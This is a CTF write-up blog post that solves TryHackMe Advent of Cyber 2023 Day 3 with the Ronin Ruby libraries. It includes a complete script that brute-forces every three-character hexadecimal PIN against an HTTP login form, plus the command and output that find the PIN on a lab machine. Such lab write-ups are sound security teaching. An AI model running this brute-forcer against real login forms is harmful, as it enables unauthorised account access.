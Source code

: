 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 3 using Ronin
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

The Day 3 challenge involves a basic HTTP form which accepts a three digit PIN
code. The PIN code can contain numeric or uppercase hexadecimal numbers.
The instructions for the challenge recommends using the [crunch] utility to
generate a wordlist file containing every three character combination of
uppercase hexadecimal characters and then use [hydra] to bruteforce the login
form. Instead, we're going to do all of that in a single Ruby script using
Ronin and it's powerful libraries.

First, we will test the HTTP form by intentionally entering an incorrect PIN
code and seeing what the response is. In the Network tab of Chrome DevTools,
we can see a failed login attempt results in a HTTP 302 response with a 
`Location` header of `error.php`. Since we don't know what a valid login
HTTP response looks like, we will have to assume anything that is not a
HTTP 302 redirect to `error.php` can be considered a successful login.

Next we will write a bruteforcing Ruby script which will send every possible
three character combination of numbers and uppercase hexadecimal characters.
To do that we will use the [chars] library, which provides a
[Chars::UPPERCASE_HEXADECIMAL] constant containing characters `0` - `9` and
`A` - `F`. Then we will use the [wordlist] library to generate every character
combination of uppercase hexadecimal characters. Then we will use
[ronin-support] to establish a persistent HTTP connection and send login
requestions until a non-HTTP 302 redirect response is returned.

```ruby
require 'ronin/support'
require 'wordlist'
require 'chars'

include Ronin::Support

charset  = Chars::UPPERCASE_HEXADECIMAL.chars
wordlist = Wordlist::Words.new(charset) ** 3

ip   = ARGV[0]
http = http_connect(ip,8000)

response       = http.get('/pin.php')
session_cookie = response['Set-Cookie']

wordlist.each do |pin|
  print_info "Trying #{pin} ..."
  response = http.post('/login.php', form_data: {pin: pin},
                                     cookie:    session_cookie)

  if response.code == '302' && response['Location'] == 'error.php'
    # login failed, keep trying ...
  else
    print_success "Jack Pot! #{pin}"
    exit 0
  end
end
```

Now to run the bruteforcing Ruby script against the target machine IP address.
We will add the `--jit` option to try to speed it up our Ruby script as much as
possible.

```shell
$ ruby --jit bruteforce.rb 10.10.185.45
```
and eventually we will hit the correct PIN code:

```
...
[*] Trying 6F2 ...
[*] Trying 6F3 ...
[*] Trying 6F4 ...
[*] Trying 6F5 ...
[+] Jack Pot! 6F5
```

As you can see, Ronin provides you with powerful libraries that can make solving
CTF challenges easy and fun.

[Advent of Cyber 2023]: https://tryhackme.com/room/adventofcyber2023
[crunch]: https://www.kali.org/tools/crunch/
[hydra]: https://www.kali.org/tools/hydra/
[chars]: https://github.com/postmodern/chars.rb#readme
[wordlist]: https://github.com/postmodern/wordlist.rb#readme
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme
